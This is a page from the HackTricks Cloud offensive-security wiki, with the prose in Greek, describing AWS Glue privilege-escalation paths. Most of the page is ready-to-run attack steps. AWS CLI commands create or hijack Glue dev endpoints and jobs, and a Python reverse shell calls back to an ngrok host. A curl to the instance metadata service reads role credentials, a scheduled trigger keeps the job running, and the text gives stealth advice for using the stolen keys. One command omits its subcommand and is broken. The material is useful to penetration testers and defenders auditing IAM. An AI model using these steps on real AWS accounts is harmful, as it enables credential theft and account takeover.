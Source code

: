 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν να **ρυθμίσουν ένα νέο AWS Glue development endpoint**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να αναληφθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το endpoint.

Μετά τη ρύθμιση, ο **επιτιθέμενος μπορεί να SSH στο instance του endpoint**, και να κλέψει τα IAM credentials του ανατεθέντος ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για σκοπούς μυστικότητας, συνιστάται η χρήση των IAM διαπιστευτηρίων από μέσα στην εικονική μηχανή Glue.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που έχει καθοριστεί.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Χρήστες με αυτή την άδεια μπορούν να **αλλάξουν το υπάρχον κλειδί SSH** του σημείου ανάπτυξης Glue, **επιτρέποντας την πρόσβαση μέσω SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί εντολές με τα δικαιώματα του συνημμένου ρόλου του σημείου ανάπτυξης:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Χρήστες με **`iam:PassRole`** σε συνδυασμό με είτε **`glue:CreateJob` είτε `glue:UpdateJob`**, και είτε **`glue:StartJobRun` είτε `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν μια εργασία AWS Glue**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της εργασίας. Οι δυνατότητες της εργασίας περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, ο οποίος μπορεί να εκμεταλλευτεί για να εγκαταστήσει ένα reverse shell. Αυτό το reverse shell μπορεί στη συνέχεια να χρησιμοποιηθεί για να εξάγει τα **διαπιστευτήρια IAM** του ρόλου που συνδέεται με την εργασία Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες με βάση τις άδειες αυτού του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Μόνο με την άδεια ενημέρωσης, ένας επιτιθέμενος θα μπορούσε να κλέψει τα IAM Credentials του ήδη συνημμένου ρόλου.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που είναι συνημμένος.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
